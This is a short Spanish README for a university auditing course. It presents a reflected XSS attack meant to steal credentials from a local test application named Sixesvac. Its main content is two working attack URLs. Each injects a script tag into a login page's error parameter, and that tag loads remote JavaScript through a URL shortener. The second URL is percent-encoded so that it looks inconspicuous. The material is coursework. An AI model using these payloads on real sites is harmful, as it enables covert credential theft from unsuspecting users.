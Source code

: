 # sixesvac-xss
Ejemplo de ataque de XSS para el robo de credenciales en la aplicación de prueba Sixesvac, para la asignatura de Auditoría e Xestión de Seguridade.

## URL a usar para el ataque XSS
1. `http://localhost:8080/privado/login.php?err_id=<script src="http://shorturl.at/depAO"></script>` (48 caracteres en parámetro de consulta)
3. `http://localhost:8080/privado/login.php?err_id=%3C%73%63%72%69%70%74%20%73%72%63%3D%22%68%74%74%70:%2F%2F%73%68%6F%72%74%75%72%6C.at%2FxKNY7%22%3E%3C%2F%73%63%72%69%70%74%3E` (126 caracteres en parámetro de consulta; discreto mediante codificación URL)

## Acortador de URL usado
https://www.shorturl.at/shortener.php
